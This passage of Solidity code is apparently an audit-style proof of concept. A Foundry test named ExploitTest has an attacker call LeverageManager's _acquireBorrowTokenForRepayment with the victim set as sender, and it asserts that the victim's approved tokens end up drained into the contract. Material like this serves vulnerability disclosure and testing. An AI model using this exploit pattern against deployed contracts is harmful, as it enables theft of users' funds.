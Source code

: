 ```solidity
}

contract ExploitTest is Test {
    LeverageManager public target;
    address public victim;
    address public borrowToken;
    address public attacker;

    function setUp() public {
        // Deploy contracts
        target = new LeverageManager();
        
        // Setup addresses
        victim = makeAddr("victim");
        attacker = makeAddr("attacker");
        
        // Deploy mock token
        MockERC20 token = new MockERC20("Test Token", "TEST");
        borrowToken = address(token);

        // Give victim tokens
        deal(borrowToken, victim, 100 ether);

        // Victim approves spending (as often required in DeFi)
        vm.startPrank(victim);
        IERC20(borrowToken).approve(address(target), type(uint256).max);
        vm.stopPrank();
    }

    function testExploit() public {
        // Initial balances
        uint256 victimInitialBalance = IERC20(borrowToken).balanceOf(victim);
        assertEq(victimInitialBalance, 100 ether, "Victim should start with 100 tokens");

        // Prepare malicious props targeting victim
        vm.startPrank(attacker);
        LeverageManager.LeverageFlashProps memory props;
        props.sender = victim; // Maliciously set sender as victim

        // Execute attack
        target._acquireBorrowTokenForRepayment(
            props,
            borrowToken,
            address(0),
            100 ether,
            0,
            0,
            0
        );
        vm.stopPrank();

        // Verify exploit success
        uint256 victimFinalBalance = IERC20(borrowToken).balanceOf(victim);
        uint256 contractBalance = IERC20(borrowToken).balanceOf(address(target));

        assertEq(victimFinalBalance, 0, "Victim's tokens should be drained");
        assertEq(contractBalance, 100 ether, "Contract should have stolen tokens");
    }
}

// Mock ERC20 token for testing
contract MockERC20 is IERC20 {
    mapping(address => uint256) private _balances;
```
